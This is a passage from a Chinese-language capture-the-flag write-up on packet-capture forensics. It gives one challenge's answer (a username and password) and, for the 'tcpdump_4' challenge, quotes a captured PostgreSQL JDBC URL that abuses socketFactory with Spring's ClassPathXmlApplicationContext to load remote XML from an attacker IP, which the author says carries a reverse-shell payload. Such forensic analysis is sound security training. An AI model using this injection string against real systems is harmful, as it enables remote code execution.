 [![](assets/1702520939-baff7f66fa596a94cc9db5578560f054.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213174859-d6bc30e8-999c-1.png)  
[![](assets/1702520939-2bb79fbb3064be1f235e85395a71974f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213174943-f15b88a4-999c-1.png)  
所以这道题的答案就是**zyplayer:1234567**

### tcpdump\_4

> 题目内容：攻击者又使用了 CVE 漏洞攻击应用，执行系统命令，请给出此 CVE 编号以及远程 EXP 的文件名，使用：拼接，比如 CVE-2020-19817:exp.so

可以看下这个 POST 的数据是`jdbc:postgresql://127.0.0.1:5432/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://116.62.63.234:9988/custom.dtd.xml`  
[![](assets/1702520939-de78d9b6cb0634c4ed2b81481b6c013f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213175001-fc1ebe0a-999c-1.png)  
因为`116.62.63.234`就是之前恶意 mysql 服务端的 IP，这个`custim.dtd.xml`的内容里面有个反弹 shell 的 payload  